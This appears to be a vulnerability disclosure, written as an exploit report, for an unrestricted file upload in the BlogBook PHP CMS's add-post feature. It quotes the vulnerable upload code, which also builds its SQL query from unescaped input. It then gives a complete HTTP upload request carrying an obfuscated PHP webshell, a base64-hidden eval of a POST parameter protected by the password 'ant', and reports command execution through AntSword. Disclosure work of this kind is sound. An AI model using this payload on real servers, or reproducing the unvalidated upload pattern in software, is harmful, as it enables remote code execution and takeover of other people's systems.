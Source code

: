 # BlogBook /admin/posts.php add_post post_image Parameter Unrestricted Upload

**Exploit Title: BlogBook /admin/posts.php add_post post_image Unrestricted Upload**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

The BlogBook application is vulnerable to unrestricted file upload in its post creation feature. The image parameter, intended for uploading post images, does not perform adequate validation or filtering on the type or extension of the uploaded file. An authenticated attacker with privileges to create posts (e.g., an administrator or author) can exploit this vulnerability by uploading a file with a malicious extension (e.g., .php, .phtml) containing server-side code.

The uploaded malicious file is moved to a web-accessible directory (../images/) using its original filename. The attacker can then directly access this uploaded file via its URL, triggering the execution of the embedded server-side code. This leads to Remote Code Execution (RCE) on the server, granting the attacker full control over the web server process, and potentially the underlying system depending on server configuration and permissions.

The vulnerability was confirmed by successfully uploading a PHP webshell via the "add post" functionality and subsequently connecting to it using AntSword, demonstrating arbitrary command execution capabilities.

## Vulnerability Point

`blogbook-main/admin/includes/add_post.php:16`

## Vulnerable Parameter

`post_image`

## Vulnerable Code

```php
if (isset($_POST['create_post'])) {

    $post_content = mysqli_real_escape_string($connection, $_POST['post_content']);
    $post_author = $_SESSION['username'];
    $post_title = $_POST['post_title'];
    $post_category_id = $_POST['post_category'];
    $post_image = $_FILES['image']['name'];
    $post_image_temp = $_FILES['image']['tmp_name'];
    $post_tags = $_POST['post_tags'];
    $post_comment_count = 0;
    $post_date = date('d-m-y');
    $post_status = $_POST['post_status'];
    $author_id = $_SESSION['user_id'];
    move_uploaded_file($post_image_temp, "../images/$post_image");

    $query = "INSERT INTO posts(post_category_id,post_title,post_author,author_id,post_date,post_image,post_content,post_tags,post_status) VALUES({$post_category_id},'{$post_title}','{$post_author}','{$author_id}',now(),'{$post_image}','{$post_content}','{$post_tags}','{$post_status}')";
    $add = mysqli_query($connection, $query);


    confirm($add);
    $view_post_id = mysqli_insert_id($connection);
    echo "<p class='bg-success'>Post Created..<a href='../post.php?p_id={$view_post_id}'>View Post</a> or<a href='posts.php?source=add_post'>Edit More Posts</a></p>";
}
```
## Payload

```
POST /admin/posts.php?source=add_post HTTP/1.1
Host: localhost
Content-Length: 936
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="136", "Microsoft Edge";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyzhEMIGjwHEoHbfK
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/admin/posts.php?source=add_post
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=m31f0c6i8bn1rg0ouck5khsgp4
Connection: close

------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="post_title"


------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="post_category"

6
------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="post_status"

draft
------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="image"; filename="php_create_function_script.php"
Content-Type: application/octet-stream

<?php 
*  pwd = ant
*/
$ant=create_function("", base64_decode('QGV2YWwoJF9QT1NUWyJhbnQiXSk7'));
$ant();
?>
------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="post_tags"


------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="post_content"


------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="create_post"

Publish Post
------WebKitFormBoundaryyzhEMIGjwHEoHbfK--

```

![image-20250523111149047](./assets/image-20250523111149047.png)

![image-20250523111157069](./assets/image-20250523111157069.png)
